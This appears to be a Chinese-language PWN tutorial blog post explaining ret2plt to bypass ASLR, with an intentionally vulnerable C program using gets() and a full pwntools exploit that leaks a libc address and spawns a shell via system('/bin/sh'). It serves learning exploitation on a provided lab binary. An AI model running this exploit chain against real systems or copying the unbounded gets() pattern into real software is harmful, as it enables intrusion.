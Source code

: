 ```yaml
---
title: ret2plt 绕过 ASLR
subtitle:
date: 2023-08-23T17:21:36+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


绕过 ASLR

<!--more-->

## 0x01 概述

这次没有可以直接利用的信息了，你必须使用前面讲到的 ret2plt 技术。在进一步了解之前，请先自己
尝试一下。

{{< link href="/pwn_assets/ret2plt.zip" content="ret2plt.zip" title="Download ret2plt.zip" download="ret2plt.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

void vuln() {
  puts("Come get me");

  char buffer[20];
  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 分析

我们需要以某种手段泄漏 ASLR 基地址。在这题中，唯一可行的方法是 ret2plt。`gets()`
可以读取任意大小的数据，所以不用担心栈空间不足的问题。我们可以充分利用 `gets()`
构造 ret2plt 的 exploit 链。通过返回到 PLT 表，可以泄漏需要的地址信息。

因此，在栈空间充足的情况下，使用 ret2plt 是最合适的手段。

## 0x03 利用

基本信息：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

现在我们要构造一个可以泄漏 `puts` 真实地址的 payload。根据之前讲到的，调用函数的
PLT 条目等同于调用函数本身。传入 `puts@got` 作为参数，会打印出 `puts` 在 `libc` 中的
实际地址，因为 C 语言传递字符串参数传递的是指针。我们知道 `puts@got` 就是一个已知
地址，可以打印。这样就可以通过 `puts@plt` 间接获取 `puts@got` 中的内容。

```python
p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

调用 `main` 的目的是让程序可以重新运行。如果我们直接返回到一个随机的地址，会让
程序崩溃。再次调用 `main` 本质上是重启了程序，这样可以使程序在泄漏 `libc` 的基地址
后继续运行。然后我们就可以进行 ret2libc 攻击。

```python
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

这里需要注意 `puts` 会一直输出，直到遇到空字节，所以它不只是泄漏了 GOT 表中的地址。
但我们只关心第一个，也就是 GOT 表里面的前 4 个字节。使用 `u32` 转换为地址。之后，
忽略调用 `main` 时产生的其它内容。我们只取关键信息，过滤无用数据。

从这里开始，我们只需要计算出 `libc` 的基地址并执行基本的 ret2libc：

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做会更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

你知道该怎么做 :) 在 64-bit 上尝试同样的操作。如果需要，你可以使用 pwntools 的 ROP 功能；
或者，为了确保你理解调用约定，请大胆地同时执行这两个操作 :P

{{< link href="/pwn_assets/ret2plt-64.zip" content="ret2plt-64.zip" title="Download ret2plt-64.zip" download="ret2plt-64.zip" card=true >}}

